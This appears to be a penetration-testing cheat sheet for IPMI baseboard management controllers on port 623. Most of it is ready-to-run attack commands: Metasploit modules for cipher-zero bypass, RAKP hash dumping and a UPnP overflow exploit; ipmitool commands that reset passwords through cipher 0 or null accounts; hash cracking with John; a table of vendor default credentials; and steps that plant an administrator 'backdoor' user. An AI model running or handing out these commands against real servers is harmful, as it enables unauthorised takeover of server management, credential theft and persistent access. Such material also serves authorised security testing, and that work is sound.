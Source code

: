 # IPMI Pentesting Checklist & Commands (Port 623/UDP/TCP)

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating IPMI (port 623), I realistically expect:

- [ ] IPMI version (1.5 or 2.0)
- [ ] Default or weak credentials
- [ ] Cipher 0 (authentication bypass)
- [ ] Hash disclosure (RAKP hashes)
- [ ] Anonymous (null) accounts
- [ ] Outdated firmware with known exploits

---

## ✅ IPMI Pentest Checklist

### 🔎 Discovery & Enumeration

- Scan for IPMI services:
    ```bash
    nmap -sU -p 623 <IP>
    nmap -p 623 <IP>
    ```

- Check IPMI version:
    ```bash
    msfconsole
    use auxiliary/scanner/ipmi/ipmi_version
    set RHOSTS <IP>
    run
    ```

---

### 🛠️ Exploiting Cipher 0 (Auth Bypass)

- Identify vulnerability:
    ```bash
    msfconsole
    use auxiliary/scanner/ipmi/ipmi_cipher_zero
    set RHOSTS <IP>
    run
    ```

- Abuse with ipmitool:
    ```bash
    ipmitool -I lanplus -C 0 -H <IP> -U root -P root user list
    ipmitool -I lanplus -C 0 -H <IP> -U root -P root user set password 2 newpass
    ```

---

### 🔑 Dumping RAKP Hashes

- Retrieve user hashes:
    ```bash
    msfconsole
    use auxiliary/scanner/ipmi/ipmi_dumphashes
    set RHOSTS <IP>
    run
    ```

```c
#Another Tool To Dump The Hash
https://github.com/c0rnf13ld/ipmiPwner
```

- Crack with John/Hashcat:
    ```bash
    john --format=IPMI2 john.txt --wordlist=rockyou.txt
    ```

---

### 👥 Check for Anonymous Access

- List users with null credentials:
    ```bash
    ipmitool -I lanplus -H <IP> -U '' -P '' user list
    ```

- Reset password if possible:
    ```bash
    ipmitool -I lanplus -H <IP> -U '' -P '' user set password 2 newpassword
    ```

---

### 🛑 Supermicro IPMI Cleartext Passwords

- Extract passwords (requires system access):
    ```bash
    cat /nv/PSBlock
    ```

---

### ⚡ Exploiting UPnP Vulnerabilities

- Metasploit module:
    ```bash
    msfconsole
    use exploit/multi/upnp/libupnp_ssdp_overflow
    set RHOST <IP>
    run
    ```

---

### 🗝️ Default Credentials

| Vendor                    | Username  | Password                        |
| ------------------------- | --------- | ------------------------------- |
| Dell iDRAC                | root      | calvin                          |
| IBM IMM                   | USERID    | PASSW0RD                        |
| Fujitsu iRMC              | admin     | admin                           |
| Supermicro IPMI 2.0       | ADMIN     | ADMIN                           |
| Oracle/Sun ILOM           | root      | changeme                        |

---

### 🏴‍☠️ Local Attacks (from Host)

- Add backdoor user via local ipmitool:
    ```bash
    ipmitool user set name 4 backdoor
    ipmitool user set password 4 backdoor
    ipmitool user priv 4 4
    ```

---

## ✅ Shodan

- Search queries:
    - `port:623`

